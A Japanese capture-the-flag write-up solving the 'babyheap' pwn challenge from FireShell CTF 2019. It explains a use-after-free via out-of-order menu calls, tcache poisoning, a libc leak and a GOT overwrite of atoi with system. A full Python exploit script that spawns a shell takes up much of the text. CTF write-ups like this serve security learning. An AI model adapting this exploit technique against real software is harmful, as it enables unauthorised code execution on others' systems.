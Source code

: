 # [pwn 329pts] babyheap - FireShell CTF 2019
64ビットですがPIEやSSPは無効です。libcバイナリも渡されます。
```
$ checksec babyheap
[*] 'babyheap'
    Arch:       64 bits (little endian)
    NX:         NX enabled
    SSP:        SSP disabled (No canary found)
    RELRO:      Partial RELRO
    PIE:        PIE disabled
```

メモをCreate, Edit, Show, DeleteできるHeap系問題です。
グローバル変数で各機能が使用済みかチェックされるため各機能1回までしか使えませんが、DeleteするとCreateが使えるようになります。
また、IDAで解析すると隠し機能としてFillがあります。
FillはCreateとEditが一緒になった機能で、これも1度しか使えません。
libcのバージョンは比較的新しく、tcacheが搭載されているのでfastbinよりこちらが優先されます。

さて、各機能は1度きりですが、順番は決まっていません。
ということで、Create-->Delete-->EditとすることでUse After Freeが発生します。
これにより解放済みchunkのfdを書き換えてやればCreate後のFillで自由な領域へ書き込むことができます。

今回はFillでbssセクションに書き込み、機能の回数制限をしている変数を書き換えると同時にメモのポインタをatoiのGOTに向けます。
この状態でshowすることでlibc baseが取得できるので、次にDelete-->FillしてatoiのGOTにsystem関数のアドレスを書き込みます。
さらにメニューの選択肢で'/bin/sh\x00'を入力すれば`system('/bin/sh')`が実行されます。

```python
from ptrlib import *

def memo_create():
    sock.recvuntil("> ")
    sock.sendline("1")

def memo_edit(data):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("Content? ")
    sock.send(data)

def memo_show():
    sock.recvuntil("> ")
    sock.sendline("3")
    sock.recvuntil("Content: ")
    return sock.recvline()

def memo_delete():
    sock.recvuntil("> ")
    sock.sendline("4")

def memo_fill(data):
    sock.recvuntil("> ")
    sock.sendline("1337")
    sock.recvuntil("Fill ")
    sock.send(data)

elf = ELF("./babyheap")
libc = ELF("./libc-2.26.so")
sock = Socket("127.0.0.1", 2000)

memo_create()
memo_delete()
memo_edit(p64(0x6020a0))
memo_create()

payload = b''
payload += p64(0) # is_created
payload += p64(0) # is_edited
payload += p64(0) # is_shown
payload += p64(0) # is_deleted
payload += p64(0) # is_filled
payload += p64(elf.got("atoi")) # buf
memo_fill(payload)

addr_atoi = u64(memo_show()[:8].strip())
libc_base = addr_atoi - libc.symbol("atoi")
addr_system = libc_base + libc.symbol("system")
dump("libc base = " + hex(libc_base))

memo_edit(p64(addr_system))

sock.recvuntil("> ")
sock.send("/bin/sh\x00")
sock.interactive()
```

さすがに何回も復習した問題なので一瞬で解けました。

# 感想
シンプルながら面白い問題だと思います。
私はこの問題をやって以来Heap系問題にチャレンジするようになったので、Heap入門者向けでしょうか。
